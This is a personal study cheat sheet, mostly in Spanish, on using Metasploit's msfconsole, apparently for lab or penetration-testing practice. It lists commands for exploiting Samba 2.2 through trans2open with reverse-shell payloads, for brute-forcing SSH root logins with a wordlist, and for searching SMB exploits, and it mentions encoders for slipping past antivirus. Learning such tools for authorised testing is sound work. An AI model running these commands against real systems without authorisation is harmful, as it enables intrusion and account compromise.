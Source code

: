 # Metasploit ❮❯

Sintax: 
	RHOSTS = Remote Host (The target IP)
	LHOST = Local host (Our IP)

- **msfconsole -q** Iniciamos metasploit (q=no cargue el banner)
**❯ search ❮exploit❯** Buscamos el exploit
		* Modulos: 'Auxiliary, Exploits, Post, Payload'
		* Tipo de Accion: 'Dos, Fuzzers, Scanner, Gather'
**❯ use ❮Number or path❯** Colocamos el numero del exploit que vamos a usar
**❯ options** Miramos las opciones del exploit y lo que debemos de configurar
**❯ set LHOST IP_addres** Configuramos el IP local (Si estamos en una VPN colocar el Tun0)
**❯ set RHOSTS IP_addres** Configuramos el IP remoto (maquina victima)
**❯ set RPORT** **#Puerto** Configuramos el puerto remoto (maquina victima)
**❯ set LPORT** **#Puerto** Configuramos el puerto local
**❯ show targets** Miras los targets disponibles (Diferentes versiones de Windows)
**❯ set target** **numero** Seleccionamos el numero de target a usar
**❯ show payloads** Miramos los payload disponibles


**Payloads**
Non-Stage -> Sends exploit shellcode all at once. Larger in size ando won't always work -> **windows/meterpreter_reverse_tcp**
Staged -> Sends payload in stages. Can be less stable -> **windows/meterpreter/reverse_tcp**

En este caso utilizaremos Metasploit para poder entrar por Samba 2.2
❯ **msfconsole** 
	❯ **search trans2open**
	❯ **use 1**
	❯ **options**
	❯ **set RHOST 192.168.68.112**
	❯ **run o exploit**
Miramos en options que esta ejecutado un **staged payload** ya que tenemos un **linux/x86/meterpreter/reverse_tcp**
Si no funciona podriamos hacer lo siguiente y buscaremos un **Non-staged payload**
❯ **set payload linux/x86/** Antes de completar el payload, podemos darle doble TAB para ver las opciones y los demas Payloads
❯ **set payload linux/x86/shell_reverse_tcp** 
❯ **options** 
❯ **run** Ejecutamos  


Tambien podemos usar Metasploit para explotar el SSH
❯ **msfconsole** 
	❯ **search ssh**
	❯ **use 17** Usaremos el que dice SSH_login
	❯ **options**
	❯ **set username root** Colocaremos el usuario de root
	❯ **set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt** Colocamos la ruta del diccionario 
	❯ **set rhosts 192.168.68.112** Colocamos la IP del target
	❯ **set threads 10** Para que vaya mas rapido al momento de mandar las solicitudes
	❯ **run** Ejecutamos el exploit


- **msfconsole** Para iniciar metaesploit para escanear **SMB**
	❯ **search smb** En este caso buscaremos exploits de SMB, podemos encontrar:
		* Modulos: 'Auxiliary, Exploits, Post, Payload'
		* Tipo de Accion: 'Dos, Fuzzers, Scanner, Gather'
	❯ **use <module#>** Para usar el modulo, lo podremos hacer con la ruta o con el numero 
	❯ **info** Mirar la informacion del modulo
	❯ **options** Para ver las opciones del modulo y ver que necesitamos colocar para que funcione correctamente
	❯ **set RHOSTS <IP.Address>** Colocamos la IP target en el modulo
	❯ **run** Para ejecutar el exploit

Lista de exploits:
-   **samba 3.0.20** Para smb de los puertos 445/139

**❯ shell** Dentro del exploit con shell nos podemos conseguir una consola interactiva




----
# Metasploit Msfconsole ❮❯

The main components of the Metasploit Framework can be summarized as follows;
-   **msfconsole**: The main command-line interface.
-   **Modules**: supporting modules such as exploits, scanners, payloads, etc.
-   **Tools**: Stand-alone tools that will help vulnerability research, vulnerability assessment, or penetration testing. Some of these tools are msfvenom, pattern_create and pattern_offset. We will cover msfvenom within this module, but pattern_create and pattern_offset are tools useful in exploit development which is beyond the scope of this module.

-   **Exploit:** A piece of code that uses a vulnerability present on the target system.
-   **Vulnerability:** A design, coding, or logic flaw affecting the target system. The exploitation of a vulnerability can result in disclosing confidential information or allowing the attacker to execute code on the target system.
-   **Payload:** An exploit will take advantage of a vulnerability. However, if we want the exploit to have the result we want (gaining access to the target system, read confidential information, etc.), we need to use a payload. Payloads are the code that will run on the target system.

- **Encoders**: Encoders will allow you to encode the exploit and payload in the hope that a signature-based antivirus solution may miss them.
- **Evasion**: While encoders will encode the payload, they should not be considered a direct attempt to evade antivirus software.



Comandos Metasploit, Soporta comandos Linux, no puede redireccionar el output de un comando, ademas puedes completar comandos con TAB
- Comando -> **msfconsole -q** Inicias el servicio de msfconsole (q=ignoras el banner del inicio)
	**>help** Menu de ayuda de metasploit
	**>clear** Limpiamos la pantalla
	**>ls** Listamos el contenido en donde ejecutamos metasploit
	**>ping -c 1 < IP>** Podemos hacer ping a una IP determinada (c=numero de ping a realizar)
	**>history** Muestra el historial de comandos
	
	 	
